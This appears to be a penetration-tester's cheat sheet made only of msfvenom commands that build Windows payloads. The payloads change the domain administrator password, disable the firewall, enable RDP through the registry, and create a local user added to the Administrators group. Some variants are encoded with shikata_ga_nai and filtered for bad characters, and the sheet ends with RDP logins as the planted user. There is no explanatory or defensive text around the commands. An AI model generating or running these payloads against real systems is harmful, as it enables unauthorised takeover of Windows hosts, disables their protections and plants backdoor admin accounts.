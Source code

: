 ```yaml
---
category: Uncategorized
tags: []
---
```

#### POC:
```bash - kali
msfvenom -p windows/x64/exec CMD="C:\windows\system32\calc.exe" -f exe > poc.exe
```


```bash - kali
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Change administrator's password:
```bash - kali
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

#### Disable Firewall:
```bash - kali
msfvenom -p windows/x64/exec CMD="netsh Advfirewall set allprofiles state off" -f exe > disableFirewall.exe
```

```bash - kali
msfvenom -p windows/exec CMD="netsh Advfirewall set allprofiles state off" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Enable RDP:
```bash - kali
msfvenom -p windows/x64/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' -f exe > RDP.exe
```

```bash - kali
msfvenom -p windows/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Create new user:
```bash - kali
msfvenom -p windows/x64/exec CMD="net user foobar Pass123 /add" -f exe > newUser.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net user foobar Pass123 /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Adding new user to admin group:
```bash - kali
msfvenom -p windows/x64/exec CMD="net localgroup Administrators foobar /add" -f exe > add2Admin.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net localgroup Administrators foobar /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $KALI
```

```bash - kali
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$KALI
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $TARGET
```

```
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$TARGET
```
